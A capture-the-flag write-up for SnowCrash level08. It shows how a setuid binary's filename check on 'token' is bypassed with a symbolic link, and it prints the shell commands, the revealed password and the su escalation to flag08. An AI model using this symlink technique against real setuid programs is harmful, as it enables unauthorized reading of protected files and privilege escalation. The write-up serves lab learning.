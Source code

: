 # Level08

## Research

```bash
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

```bash
level08@SnowCrash:~$ ./level08
./level08 [file to read]

level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

```bash
level08@SnowCrash:~$ strings level08
[...]
printf
strstr
read
open
[...]
token
```

We can see that the programs calls strstr and that 'token' is hard written in the code.
Maybe it won't read anyfile with 'token' in the name.

```bash
level08@SnowCrash:~$ echo 'hello' > /tmp/hello
level08@SnowCrash:~$ ./level08 /tmp/hello
hello
level08@SnowCrash:~$ ./level08 /tmp/cctoken
You may not access '/tmp/cctoken'
```
The theory seems true: the program will open, read and print anyfile which doesn't have token in its name.

How to make it access and read `token` through a file not named 'token'?

## Solution

https://techterms.com/definition/symbolic_link

We can use symbolic links: </br>

```bash
level08@SnowCrash:~$ ln -s ~/token /tmp/link
level08@SnowCrash:~$ ./level08 /tmp/link
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXX
```
